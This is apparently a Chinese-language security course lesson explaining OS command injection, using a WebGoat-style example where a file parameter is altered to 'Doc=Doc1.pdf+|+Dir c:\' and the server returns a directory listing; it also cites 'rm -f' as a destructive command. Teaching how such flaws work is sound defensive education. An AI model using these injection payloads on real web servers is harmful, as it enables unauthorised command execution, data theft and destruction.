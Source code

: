 你好，我是王昊天。

我们在生活中，经常会访问各种网页来获取信息。你有没有想过，我们除了可以获得网页上展示给我们的信息，还能获得它原本不打算展示给我们的信息，甚至可以在网页的服务器上运行我们想要执行的代码来搞一些破坏呢，这种行为就是命令注入。

相信你已经对命令注入有了极大的兴趣，这节课让我们一起来学习这个神奇的攻击方式。

## 命令注入

命令注入，就是在仅仅需要输入数据的场合，攻击者构造数据的同时输入了恶意命令代码，而系统并未过滤掉恶意命令，使得恶意命令代码一并执行，最终导致信息泄露或者正常数据遭到破坏。

在命令注入中，最常见的是 **操作系统命令注入**，攻击者可以使用这种注入攻击对服务器执行操作系统命令。例如攻击者可以执行命令 `rm -f`，来删除一些重要的文件。这是服务器的管理人员非常不想看到的，下面让我们一起来学习这个可怕的攻击方式吧。

### 操作系统命令注入

当一个Web应用，没有正确清理用户可控输入信息，那么它就有可能会受到此漏洞的影响。

如果这个漏洞存在，那么攻击者就具有执行操作系统命令的能力，就可以上传攻击程序，甚至获得密码信息。这对应用所在服务器会造成很严重的影响。

为了加深你的理解，我们一起来看一个有趣的示例。

有一个网页应用，它包含许多文件，我们可以通过网络访问到。当访问 `Doc1.pdf` 文件时，我们可以通过 `Burp Suite` 获取到如下 `HTTP POST` 请求。

```plain
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf

```

你可以通过这个示例注意到，应用是如何访问到指定文件的。现在我们来测试一下，能不能在这个请求中加入操作系统命令，进行注入操作。我们将上述请求修改如下。

```plain
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\

```

如果应用不对这个请求进行验证操作，我们可以获得如下的结果。

```plain
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
```